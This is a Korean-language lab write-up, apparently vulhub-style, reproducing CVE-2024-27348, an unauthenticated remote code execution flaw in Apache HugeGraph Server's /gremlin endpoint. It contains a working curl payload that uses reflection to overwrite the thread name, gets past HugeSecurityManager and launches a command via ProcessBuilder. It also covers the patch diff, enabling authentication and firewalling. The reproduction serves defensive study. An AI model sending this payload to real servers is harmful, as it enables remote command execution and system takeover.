



# Apache HugeGraph Server Gremlin RCE (CVE-2024-27348)

## 취약점 요약

Apache HugeGraph는 대규모 그래프 데이터를 다루는 오픈소스 그래프 데이터베이스로, 쿼리 언어로 **Gremlin**(그래프 순회 언어)을 지원한다. 사용자가 REST API의 `/gremlin` 엔드포인트에 Gremlin 스크립트를 보내면 서버가 이를 실행하는 구조인데, 이 스크립트 안에는 자바(Groovy) 코드도 어느 정도 자유롭게 쓸 수 있다. 
그래서 HugeGraph는 `HugeSecurityManager`라는 자체 보안 관리자를 두어, 시스템 명령 실행 같은 위험한 동작을 Gremlin에서 호출하지 못하도록 막고 있다.

문제는 이 필터링이 호출자가 Gremlin 실행 컨텍스트에서 발생했는지를 판단할 때, 현재 실행 스레드의 이름을 핵심 식별 기준으로 사용한다는 점이다. 공격자는 자바 리플렉션(reflection)으로 현재 스레드 이름을 강제로 조작해 "이 호출은 Gremlin에서 온 게 아니다"라고 보안 관리자를 속일 수 있고, 이후 `ProcessBuilder`를 통해 임의의 시스템 명령을 실행할 수 있다. 

- **영향받는 버전**: Apache HugeGraph Server 1.0.0 이상 1.3.0 미만
- **영향받는 Java 환경**: Java 8 및 Java 11
- **최초 수정 버전**: Apache HugeGraph Server 1.3.0

## 취약 조건

다음 조건이 충족되면 공격자는 별도의 계정 없이 취약점을 원격에서 악용할 수 있다.

- Apache HugeGraph Server 1.0.0 이상 1.3.0 미만을 사용한다.
- 인증 기능이 비활성화되어 있다.
- `/gremlin` REST 엔드포인트에 네트워크로 접근할 수 있다.
- 서버가 Java 8 또는 Java 11 환경에서 실행된다.

본 재현 환경에서는 인증이 비활성화된 상태로 `/gremlin` 엔드포인트가 호스트의 8080 포트에 공개되므로, 별도의 로그인 없이 취약점을 재현할 수 있다.

## 환경 구성

HugeGraph Server 1.0.0으로 빌드된 서버를 시작하기 위해 다음 명령어를 실행한다.

```bash
docker compose up -d
```

아래 명령어를 통해 컨테이너가 정상적으로 떴는지 확인한다.

```bash
docker compose ps
```

## 재현 절차

1. 정상적인 명령 실행 시도 시 보안 필터에 의해 차단되는 것을 확인한다
    (`HugeSecurityManager` 필터링이 동작하고 있음을 확인하기 위함).
    ```bash
    curl -X POST http://localhost:8080/gremlin \
        -H "Content-Type: application/json" \
        -d '{"gremlin": "Runtime.getRuntime().exec(\"id\")"}'
    ```
    
    > `응답 본문에서 `SecurityException` 또는 명령 실행이 허용되지 않았다는 오류를 확인한다. 세부 메시지는 실행 환경에 따라 달라질 수 있다.
    
    

2. 스레드 이름 조작 기법을 적용한 페이로드로 `/gremlin` 엔드포인트에 재요청한다.
    <details>
    <summary>페이로드 동작 원리</summary>

    `HugeSecurityManager`는 `checkAccess(Thread)` 등을 통해 `Thread.setName()` 같은 **공식 메서드 호출**로 스레드를 조작하는 것은 감시하고 있다. 하지만 자바 리플렉션을 이용해 `name` 필드 값을 직접 덮어쓰는 방식은 이 감시망에 걸리지 않았고, 페이로드는 이를 이용한다.

    1. `Thread.currentThread()`로 현재 실행 중인 스레드 객체를 가져온다.
    2. `setName()` 대신 리플렉션으로 `name` 필드에 강제로 접근 권한을 부여(`setAccessible(true)`)한 뒤, 필드 값을 직접 임의의 값(`x`)으로 덮어쓴다.
    3. 보안 검사가 우회된 상태이므로, `ProcessBuilder`를 리플렉션으로 가져와 생성자를 호출하고 실행할 명령(`touch /tmp/success`)을 인자로 전달한다.
    4. `start()` 메서드를 리플렉션으로 호출하여 실제 프로세스를 실행시킨다.

    </details>

    ```bash
    curl --compressed -X POST http://localhost:8080/gremlin \
    -H "Content-Type: application/json" \
    -d '{
        "gremlin": "Thread thread = Thread.currentThread(); Class clz = Class.forName(\"java.lang.Thread\"); java.lang.reflect.Field field = clz.getDeclaredField(\"name\"); field.setAccessible(true); field.set(thread, \"x\"); Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\"); java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class); java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/success\"); Object processBuilderInstance = constructor.newInstance(command); java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\"); startMethod.invoke(processBuilderInstance);",
        "bindings": {},
        "language": "gremlin-groovy",
        "aliases": {}
    }'
    ```

    

3. 컨테이너 내부에서 명령 실행 결과를 확인한다.

    ```bash
    docker exec cve-2024-27348 ls -la /tmp/success
    ```

   

   컨테이너 내부에서 `/tmp/success` 파일이 `root` 소유로 정상 생성된 것을 확인하였다. 
   
   파일 소유자가 root인 것은 이번 환경에서 명령이 컨테이너 내부의 root 사용자 권한으로 실행되었음을 의미한다. 이를 통해 컨테이너 내부의 데이터와 프로세스가 장악될 수 있지만, Docker 호스트까지 장악할 수 있는지는 privileged 실행, 호스트 디렉터리 및 Docker socket 마운트, 부여된 capability 등의 구성에 따라 달라진다.

   이것이 위험한 이유는, PoC에서는 빈 파일만 생성하지만, `ProcessBuilder`에 전달하는 명령은 공격자가 지정한 다른 운영체제 명령으로 변경할 수 있다. 이에 따라 컨테이너 내부의 데이터 조회·변조·삭제, 자격 증명 탈취, 서비스 중단, 추가 프로세스 실행 등의 피해가 발생할 수 있다. 또한 민감한 호스트 디렉터리나 Docker socket이 마운트된 경우에는 피해가 호스트 환경으로 확대될 수 있다.

4. 실행 환경 종료

    ```bash
    docker compose down
    ```

## 대응 방안

1. **버전 업그레이드**

    Apache HugeGraph Server 1.3.0 이상으로 업그레이드한다. 실제 패치 커밋(`713d88d`, "refact: enhance auth logic")에서 PoC가 사용한 리플렉션 메서드(`Class.forName`, `Field.setAccessible`, `Constructor.newInstance`, `ProcessBuilder.start`)들이 필터링 대상으로 새로 추가되었다.

    <details>
    <summary>패치 전/후 코드 비교</summary>

    **패치 전**
    ```java
    private static void registerPrivateActions() {
        // Thread
        Reflection.registerFieldsToFilter(java.lang.Thread.class, "name", "priority", ...);
        Reflection.registerMethodsToFilter(java.lang.Thread.class, "exit", ...);
        // ProcessBuilder, Class, Field, Constructor 등은 별도 필터링 없음
    }
    ```

    **패치 후**
    ```java
    public static void filterCriticalSystemClasses() {
        Reflection.registerMethodsToFilter(Class.class, "forName", "newInstance");
        Reflection.registerMethodsToFilter(Method.class, "invoke", "setAccessible");
        Reflection.registerMethodsToFilter(Field.class, "set", "setAccessible");
        Reflection.registerMethodsToFilter(Constructor.class, "newInstance", "setAccessible");
        Reflection.registerMethodsToFilter(Runtime.class, "exec", "getRuntime");
        Reflection.registerMethodsToFilter(ProcessBuilder.class, "command", "start", "startPipeline");
    }
    ```

    즉 패치 후에는 PoC가 사용한 리플렉션 호출 하나하나가 전부 Gremlin 컨텍스트에서 차단 대상으로 등록되어, 스레드 이름을 조작해도 더 이상 시스템 명령 실행까지 도달할 수 없다.
    </details>

2. **인증(Auth) 활성화 (임시 조치)**

    업그레이드가 즉시 불가능하다면, `rest-server.properties`에서 인증을 켜서 비인증 사용자가 `/gremlin`에 접근하지 못하게 막는다.

    ```properties
    auth.authenticator=org.apache.hugegraph.auth.StandardAuthenticator
    auth.graph_store=hugegraph
    ```
    설정 후에는 모든 요청에 `Authorization: Basic <user:password>` 헤더가 필요해지므로, 익명 사용자의 임의 Gremlin 실행 자체가 차단된다.

3. **네트워크 접근 제어**

    `restserver.url`을 `0.0.0.0`처럼 모든 인터페이스로 열어두지 말고, RestServer가 실제로 사용 중인 포트(환경 구성에 따라 다르며, 이번 재현 환경 기준으로는 8080)를 꼭 필요한 내부 IP 대역에서만 접근 가능하도록 방화벽/보안 그룹 규칙을 설정한다. 인터넷 전체에 노출되는 구성은 피한다.

## 참고 자료

- NVD: https://nvd.nist.gov/vuln/detail/CVE-2024-27348
- vulhub: https://github.com/vulhub/vulhub/blob/master/hugegraph/CVE-2024-27348/README.md
- hugegraph 패치 내역: https://github.com/apache/hugegraph/commit/713d88d1fd9953c3c3e3f130389501910ba40e1d